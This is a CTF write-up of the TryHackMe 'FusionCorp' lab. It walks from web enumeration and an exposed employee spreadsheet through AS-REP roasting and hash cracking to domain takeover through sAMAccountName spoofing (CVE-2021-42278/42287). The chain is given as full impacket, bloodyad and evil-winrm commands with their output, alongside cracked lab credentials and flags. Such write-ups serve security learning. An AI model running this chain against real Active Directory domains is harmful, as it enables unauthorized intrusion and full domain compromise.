







# FusionCorp TryHackMe Writeup

---

## Machine Information

| Field | Details |
|---|---|
| **Name** | FusionCorp |
| **Platform** | TryHackMe |
| **OS** | Windows Server 2019 |
| **Difficulty** | Medium |
| **Domain** | fusion.corp |
| **DC** | FUSION-DC (Fusion-DC.fusion.corp) |

---

## Enumeration

### Nmap

```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows AD LDAP (Domain: fusion.corp)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services

| rdp-ntlm-info:
|   Target_Name: FUSION
|   DNS_Domain_Name: fusion.corp
|   DNS_Computer_Name: Fusion-DC.fusion.corp
|   Product_Version: 10.0.17763
| clock-skew: mean: 6s
```

Standard DC layout. Added domain to `/etc/hosts`:

```bash
echo "10.48.191.69  FUSION-DC.fusion.corp FUSION-DC fusion.corp" | sudo tee -a /etc/hosts
```

### Web Enumeration /backup Directory

Port 80 is a corporate landing page:


Nothing immediately useful on the main page. Running directory fuzzing:

```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt \
  -u http://10.48.190.197/FUZZ -ic -v -recursion
```



```bash
curl -L http://10.48.191.69/backup
```

```html
<pre>
  3/7/2021  2:28 AM   3209  <A HREF="/backup/employees.ods">employees.ods</A>
</pre>
```

An OpenDocument Spreadsheet file in a publicly accessible backup directory. Downloading it immediately.

### employees.ods > Username Extraction

ODS files are ZIP archives containing XML. Opening the file reveals its internal structure:



Extracting and viewing `content.xml` in the browser:



Parsing the XML to extract just the text content:

```bash
cat xml.xml | grep -oP '(?<=<text:p>).*?(?=</text:p>)' | tail -n 22
```

```
Jhon Mickel       jmickel
Andrew Arnold     aarnold
Jhon Powel        jpowel
Thomas Jeffersonn tjefferson
Nola Maurin       nmaurin
Mira Ladovic      mladovic
Larry Parker      lparker
Kay Garland       kgarland
Diana Pertersen   dpertersen
```

9 employees, full names and usernames. Building a wordlist from these and save it to `user.txt`.

---

## Initial Foothold

### SMB/RPC Anonymous Enum > All Dead Ends

```bash
nxc smb 10.48.190.197 -u '' -p ''
# Null Auth: True but:
nxc smb 10.48.190.197 -u '' -p '' --shares
# [-] Error enumerating shares: STATUS_ACCESS_DENIED

rpcclient -U "" -N 10.48.190.197
# enumdomusers > result was NT_STATUS_ACCESS_DENIED

nxc smb 10.48.190.197 -u 'guest' -p '' --shares
# [-] fusion.corp\guest: STATUS_ACCOUNT_DISABLED
```

Null session works for basic auth but can't enumerate. Guest account is disabled. Moving on.

### Credential Tests Empty Passwords & Self-Spray > Failed
```bash
# Test all usernames with empty password
nxc smb 10.48.190.197 -u user.txt -p ''
# All STATUS_LOGON_FAILURE

# Test username = password for each
nxc smb 10.48.190.197 -u user.txt -p user.txt
# All STATUS_LOGON_FAILURE
```

Nobody has an empty password or uses their username as password.


With a clean username list but no credentials, AS-REP roasting is the natural next step. The file contains both full names and usernames, so we pass everything to GetNPUsers and let Kerberos sort out which ones are valid accounts:

```bash
impacket-GetNPUsers fusion.corp/ -usersfile user.txt \
  -dc-ip 10.48.131.184 -request -no-pass
```

```
[-] KDC_ERR_C_PRINCIPAL_UNKNOWN (Jhon Mickel)
[-] KDC_ERR_C_PRINCIPAL_UNKNOWN (jmickel)
[-] KDC_ERR_C_PRINCIPAL_UNKNOWN (aarnold)
...
$krb5asrep$23$lparker@FUSION.CORP:e53b6942fdf750260c023c1b91dc48bf$...
[-] KDC_ERR_C_PRINCIPAL_UNKNOWN (kgarland)
[-] KDC_ERR_C_PRINCIPAL_UNKNOWN (dpertersen)
```

`KDC_ERR_C_PRINCIPAL_UNKNOWN` for most those usernames don't exist as Kerberos principals in this format. But **lparker** gets back an AS-REP hash, meaning she exists in the domain AND has pre-authentication disabled.

```
$krb5asrep$23$lparker@FUSION.CORP:e53b6942fdf750260c023c1b91dc48bf$a2fa77a3299c795f...e2b74a
```

### Cracking > !!abbylvzsvs2k6!

```bash
hashcat -a 0 hash.txt /usr/share/wordlists/rockyou.txt
# Auto-detects: 18200 (Kerberos 5, etype 23, AS-REP)
$krb5asrep$23$lparker@FUSION.CORP:...:!!abbylvzsvs2k6!
Status: Cracked
Time.Started: Tue Oct 27 14:17:43 2026 (6 secs)
**lparker : !!abbylvzsvs2k6!** cracked in 6 seconds.
```

### Validating & Getting a Shell

```bash
nxc smb 10.48.131.184 -u lparker -p '!!abbylvzsvs2k6!'
# [+] fusion.corp\lparker:!!abbylvzsvs2k6!

nxc rdp 10.48.131.184 -u lparker -p '!!abbylvzsvs2k6!'
# [+] fusion.corp\lparker:!!abbylvzsvs2k6!

nxc winrm 10.48.131.184 -u lparker -p '!!abbylvzsvs2k6!'
# [+] fusion.corp\lparker:!!abbylvzsvs2k6! (Pwn3d!)
``
WinRM shell via evil-winrm:

```bash
evil-winrm -u lparker -p '!!abbylvzsvs2k6!' -i 10.48.131.184
```

```powershell
*Evil-WinRM* PS C:\Users\lparker\DEsktop> type flag.txt
THM{c105b6fb249741b89432fada8218f4ef}
```



User flag captured. Checking privileges:

```
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

`SeMachineAccountPrivilege` is enabled. This allows creating machine accounts in the domain a key ingredient for **sAMAccountName spoofing**

## Privilege Escalation sAMAccountName Spoofing (CVE-2021-42278 + CVE-2021-42287)

### BloodHound Analysis

```bash
bloodyad --host 10.48.131.184 -u lparker -p '!!abbylvzsvs2k6!' \
  -d fusion.corp get bloodhound
```


Only four domain users, jmurphy, lparker, krbtgt, administrator. Small domain, clean



BloodHound reveals two potential escalation paths:

1. **JMURPHY > Backup Operators**: Backup Operators can override security restrictions traditionally abused to read SAM
2. **lparker has SeMachineAccountPrivilege**: Can create computer accounts > sAMAccountName spoofing. No extra credentials needed. This is the cleaner path.

here, i choose SeMachineAccountPrivilege
### How sAMAccountName Spoofing Works

The vulnerability chains two CVEs:

**CVE-2021-42278** (sAMAccountName spoofing): By default, domain users can create up to 10 computer accounts (`ms-DS-MachineAccountQuota = 10`). The sAMAccountName of these new accounts can be set to any value including namesrename it to `FUSION-DC` (same as the real domain controller's name, minus the `$`).

**CVE-2021-42287** (PAC confusion): When we request a Kerberos S4U2Self ticket using a TGT obtained for our fake "FUSION-DC" account, and we've already renamed that account back to something else, the KDC can't find the "FUSION-DC" principal anymore. It then falls back to looking for "FUSION-DC$" which is the **real domain controller**. The KDC issues the S4U2Self ticket in the DC's security context, granting us a ticket that the CIFS service accepts as the domain controller itself impersonating Administrator.

### Manual Exploitation Step by Step

**Step 1: Create a new computer account**

```
impacket-addcomputer fusion.corp/lparker:'!!abbylvzsvs2k6!' \
  -computer-name 'wakamiya' -computer-pass 'Password123!' \
  -dc-ip 10.48.170.200
[*] Successfully added machine account wakamiya$ with password Password123!.
```


```bash
impacket-GetADComputers fusion.corp/lparker:'!!abbylvzsvs2k6!' \
  -user wakamiya -dc-ip 10.48.170.200
# SAM AcctName: wakamiya$
```

**Step 2: Rename wakamiya$ to match the DC name (no trailing $)**

```bash
bloodyad --host 10.48.191.69 -u lparker -p '!!abbylvzsvs2k6!' -d fusion.corp \
  set object "CN=wakamiya,CN=Computers,DC=fusion,DC=corp" \
  sAMAccountName -v "FUSION-DC"
[+] CN=wakamiya,CN=Computers,DC=fusion,DC=corp's sAMAccountName has been updated
```

**Step 3: Get a TGT using our renamed account**

The KDC now sees "FUSION-DC" (no $) and issues a TGT

```bash
impacket-getTGT fusion.corp/FUSION-DC:'Password123!' -dc-ip 10.48.191.69
[*] Saving ticket in FUSION-DC.ccache
```

**Step 4: Restore the sAMAccountName**

i rename wakamiya$ back to its original name. This is critical the real FUSION-DC$ must be findable again for the PAC fallback to work

```bash
bloodyad --host 10.48.191.69 -u lparker -p '!!abbylvzsvs2k6!' -d fusion.corp \
  set object "CN=wakamiya,CN=Computers,DC=fusion,DC=corp" \
  sAMAccountName -v "wakamiya$"
[+] CN=wakamiya,CN=Computers,DC=fusion,DC=corp's sAMAccountName has been updated
```

**Step 5: S4U2Self impersonate Administrator*
Using the TGT we obtained when our account was called "FUSION-DC", request a service ticket for Administrator:

```bash
export KRB5CCNAME=/home/wakamiya/VirtualLab/THM/FusionCorp/FUSION-DC.ccache

impacket-getST -k -no-pass -impersonate 'Administrator' \
  fusion.corp/FUSION-DC -dc-ip 10.48.191.69 \
  -self -altservice 'cifs/FUSION-DC.fusion.corp'
[*] Impersonating Administrator
[*] Changing service from FUSION-DC@FUSION.CORP to cifs/FUSION-DC.fusion.corp@FUSION.CORP
[*] Saving ticket in Administrator@cifs_FUSION-DC.fusion.corp@FUSION.CORP.ccache
```

The KDC looked for "FUSION-DC" without dollar sign, it couldn't find our renamed account and fell back to "FUSION-DC$" (the real DC), and issued a CIFS ticket in its context impersonating Administrator.

**Step 6: Shell as NT AUTHORITY\SYSTEM**

```bash
export KRB5CCNAME=/home/wakamiya/VirtualLab/THM/FusionCorp/Administrator@cifs_FUSION-DC.fusion.corp@FUSION.CORP.ccache

impacket-smbexec -k -no-pass FUSION-DC.fusion.corp -dc-ip 10.48.191.69
[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32> whoami
nt authority\system
```

### Shortcut: sam_the_admin.py

After solving the box manually, there's a public script that automates all six steps above into a single command

```bash
python3 sam_the_admin.py fusion.corp/lparker:'!!abbylvzsvs2k6!' \
  -dc-ip 10.48.170.200
```



The script handles: create fake computer > rename to DC name > get TGT > restore > S4U2Self > smbexec. All in one shot.

---

## Root

```
C:\Windows\system32> type C:\Users\Administrator\Desktop\flag.txt
THM{f72988e57bfc1deeebf2115e10464d15}
C:\Windows\system32> type C:\Users\jmurphy\Desktop\flag.txt
THM{b4aee2db2901514e28db4242e047612e}
```

---

## Lessons Learned

**Publicly accessible backup directories are a direct path to enumeration.** The `/backup` endpoint found through ffuf exposed `employees.ods` a spreadsheet containing every domain username. No credentials needed, just directory fuzzing. Any path with words like "backup", "archive", "export", "data", or "files" should be checked immediately.

**ODS files are ZIP archives with XML inside.** An `.ods` file is just a ZIP containing `content.xml` among others. If you can't open it graphically, unzip it directly and parse the XML. `grep -oP '(?<=<text:p>).*?(?=</text:p>)'` is a quick way to extract all text content from ODF/ODS XML without needing a spreadsheet application.

**Feed everything to GetNPUsers let Kerberos validate for you.** The employee file contained both full names and short usernames. Rather than manually figuring out which format the domain uses, pass all of them to GetNPUsers. `KDC_ERR_C_PRINCIPAL_UNKNOWN` means invalid, any other response means the account exists. In this case only the `lparker` short username returned a hash.

**SeMachineAccountPrivilege is a direct path to SYSTEM via CVE-2021-42278/42287.** This privilege (and the default `ms-DS-MachineAccountQuota=10`) lets any domain user create machine accounts. Combined with the ability to set arbitraryexisting admin access a single standard domain user with this privilege is enough to compromise the domain.

**Understand the CVE chain before using the one-liner.** `sam_the_admin.py` automates everything, but knowing the manual steps matters: create fake computer > rename to DC name without dollar sign > get TGT > rename back > S4U2Self with PAC fallback to real "DC$" > CIFS ticket as Administrator. Each step has a reason, and knowing the reason helps when the script fails or when different tooling is needed
**The Backup Operators path was a valid alternative.** JMURPHY in Backup Operators could have been exploited to read NTDS.dit backup or SAM/SYSTEM hives, then extract hashes offline. But it would have required an additional step to get jmurphy's credentials first. sAMAccountName spoofing was simpler because it only needed lparker's credentials (already in hand) plus SeMachineAccountPrivilege.

---

## Tools & References

| Tool | Purpose |
|---|---|
| **nmap** | Port scanning & DC fingerprinting |
| **ffuf** | Web directory fuzzing |
| **curl** | Directory browsing + file download |
| **grep** | XML parsing to extract employee names |
| **nxc (NetExec)** | SMB/WinRM/RDP credential validation |
| **evil-winrm** | WinRM shell |
| **impacket-GetNPUsers** | AS-REP roasting |
| **hashcat** | Crack AS-REP hash (mode 18200) |
| **bloodyad** | sAMAccountName modification |
| **impacket-addcomputer** | Create fake machine account |
| **impacket-getTGT** | Get TGT for spoofed DC name |
| **impacket-getST** | S4U2Self service ticket |
| **impacket-smbexec** | SYSTEM shell via Kerberos ticket |
| **sam_the_admin.py** | Automated sAMAccountName spoofing |

**References**
- [sAMAccountName Spoofing The Hacker Recipes](https://www.thehacker.recipes/ad/movement/kerberos/principal-confusion/samaccountname-spoofing)
- [sAMAccountName Spoofing Hacking Articles](https://www.hackingarticles.in/windows-privilege-escalation-samaccountname-spoofing/)
- [sam-the-admin.py](https://github.com/safebuffer/sam-the-admin)
- [RenameMachine (alternative without bloodyad)](https://github.com/marufzaman/RenameMachine)